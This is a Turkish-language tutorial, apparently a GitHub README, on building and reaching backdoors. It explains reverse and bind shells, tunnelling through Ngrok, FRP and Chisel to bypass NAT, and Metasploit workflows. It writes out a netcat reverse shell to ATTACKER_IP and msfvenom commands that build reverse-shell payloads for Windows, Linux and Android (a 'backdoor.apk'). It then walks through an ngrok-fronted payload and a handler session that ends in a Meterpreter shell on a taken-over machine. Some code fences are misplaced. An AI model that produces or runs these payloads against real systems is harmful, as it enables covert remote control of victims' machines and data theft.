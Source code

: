 1️⃣ Backdoor (Arka Kapı) Nedir?
Backdoor (arka kapı), bir sisteme veya cihaza gizli erişim sağlamak için kullanılan bir yöntemdir. Genellikle güvenlik sistemlerini atlatarak uzaktan kontrol sağlamaya yarar.
🔹 Backdoor Çeşitleri:
✅ Reverse Shell (Ters Kabuk) → Hedef sistemden saldırgana bağlantı başlatır.
✅ Bind Shell (Bağlı Kabuk) → Hedef sistemde bir port açar, saldırgan bu porta bağlanır.
✅ Kalıcı Backdoor → Sisteme her yeniden başlatıldığında çalışacak şekilde yerleştirilir.

2️⃣ Dış Ağda Backdoor Kullanımı
Eğer hedef dış ağdaysa (internet üzerinden erişim gerekiyorsa), doğrudan bağlantı kurmak zor olabilir. Bunun için tünelleme servisleri veya port yönlendirme kullanılabilir.
📌 Dış Ağda Kullanılan Yöntemler
🔹 VPN veya Proxy Kullanımı → Hedefin iç ağına erişim sağlamak için.
🔹 Ngrok, LocalTunnel vb. Servisler → İç ağdan dış ağa bağlantı açmak için.
🔹 Metasploit Reverse Shell + NAT Bypass → Dış ağdan bağlantıyı almak için.

3️⃣ Tünel Servisleri Nedir?
Tünel servisleri, iç ağdaki bir cihazın internet üzerinden erişilebilir hale gelmesini sağlar.
📌 Popüler Tünel Servisleri
✅ Ngrok → İç ağdaki bir portu internete açar (örn: http://xyz.ngrok.io).
✅ FRP (Fast Reverse Proxy) → Birden fazla bağlantı ve ters proxy işlemi yapar.
✅ Chisel → SSH tabanlı tünelleme yaparak port yönlendirme sağlar.
✅ Socat → Port yönlendirme ve ters kabuk bağlantıları için kullanılır.
Dış Ağda Çalışma Opsiyonları (Kısaca Özet)
Dış ağda (internet üzerinden) bir sisteme erişmek için çeşitli teknikler ve araçlar kullanılır. Genellikle NAT, güvenlik duvarları ve ağ kısıtlamaları aşılmaya çalışılır. İşte başlıca yöntemler:

1️⃣ Doğrudan Bağlantı (Port Yönlendirme)
🔹 Hedef cihazın portları açıksa, doğrudan bağlantı sağlanabilir.
🔹 Shodan, Censys gibi araçlarla açık portlar taranabilir.
🔹 Metasploit, Netcat, Nmap kullanarak servisler incelenebilir.
⚠️ Eğer hedef NAT veya güvenlik duvarı arkasındaysa, doğrudan bağlantı zor olabilir.

2️⃣ Reverse Shell (Ters Kabuk)
🔹 Hedef sisteme geri bağlantı başlatmasını sağlamak için kullanılır.
🔹 Metasploit, Netcat, Socat, Chisel ile ters kabuk alınabilir.
Örnek Reverse Shell:
```bash
bash
```
nc -e /bin/bash ATTACKER\_IP 4444

📌 Avantajı: NAT ve güvenlik duvarlarını atlatabilir.

3️⃣ Tünelleme Servisleri (Ngrok, FRP, Chisel)
🔹 İç ağdan dış dünyaya güvenli bir tünel açarak bağlantı sağlanır.
🔹 Ngrok, FRP, Chisel, SSH Tunneling gibi araçlar kullanılır.
Ngrok Kullanımı:
```bash
bash
```
ngrok tcp 4444

📌 Avantajı: İnternetten doğrudan bağlantı sağlar.

4️⃣ İç Ağa Erişim (VPN, Proxy, DNS Tünelleme)
🔹 VPN ile hedef ağına bağlanarak içeriden erişim sağlanabilir.
🔹 DNS Tünelleme (Iodine, DNScat2) kullanılarak veri sızdırılabilir.

📌 Özet
🌍 Dış ağdan bir sisteme erişim için farklı teknikler kullanılır:
✅ Port yönlendirme → Eğer hedefin açık portları varsa.
✅ Reverse Shell → NAT arkasındaki hedeflerin geri bağlanmasını sağlamak için.
✅ Tünelleme servisleri (Ngrok, FRP, Chisel) → İç ağdan dışarıya güvenli bir bağlantı oluşturmak için.
✅ VPN / Proxy / DNS Tünelleme → İç ağ erişimi ve veri aktarımı için.

TUNNELING
msfconsole:
```bash
> set LHOST <0.0.0.0>
> set LPORT 
#./ngrok tcp 4242
```
MSFVENOM
Msfvenom Nedir? Ne İşe Yarar?
🔹 Msfvenom, Metasploit Framework'ün bir parçasıdır ve payload (zararlı kod), shellcode ve exploit oluşturmak için kullanılır.
🔹 Özel payload'lar üretmek, farklı formatlarda (EXE, APK, PHP, DLL, etc.) zararlı dosyalar oluşturmak ve hedef sistemde çalıştırılabilecek exploitler hazırlamak için kullanılır.

📌 Msfvenom Ne İşe Yarar?
✅ Windows, Linux, Android, macOS gibi sistemler için zararlı dosya oluşturabilir.
✅ Ters bağlantı (Reverse Shell) ve bağlı kabuk (Bind Shell) üretebilir.
✅ Kodları şifreleyerek (Encoding) tespit edilmesini zorlaştırabilir.
✅ Meterpreter, Netcat gibi farklı payload’lar ile çalışabilir.
📌 Msfvenom Kullanımı (Temel Komutlar)
🔹 Temel format:
```bash
bash
msfvenom -p PAYLOAD -f FORMAT -o OUTPUT\_FILE
```
🔹Windows için Reverse Shell oluşturma:
```bash
bash
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -f exe -o shell.exe
```
🔹 Linux için Reverse Shell oluşturma:
```bash
bash
msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -f elf -o shell.elf
```
🔹 Android için APK içine backdoor ekleme:
```bash
bash
msfvenom -p android/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 -o backdoor.apk
```
📌 Özet
🚀 Msfvenom, zararlı payload’lar üretmek için kullanılan Metasploit aracı.
💻 Windows, Linux, Android, macOS gibi sistemlere uygun shellcode ve backdoor oluşturabilir.

```bash
#msfvenom -p windows/meterpreter/reverse\_tcp -a x86 --platform windows lhost=tcp://0.tcp.ngrok.io:11620 -f exe -o /root/newbackdoor.exe
#msfconsole
msf5>use exploit/multi/handler
```
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse\_tcp
msf5 exploit(multi/handler) > show options
msf5 exploit(multi/handler) > set LHOST 4242
msf5 exploit(multi/handler) > exploit -j -z
```bash
#service apache2 start
```
msf5 exploit(multi/handler) > sessions -l
msf5 exploit(multi/handler) >session -2
```bash
meterpreter> ls (ele geçirdik)
```

 







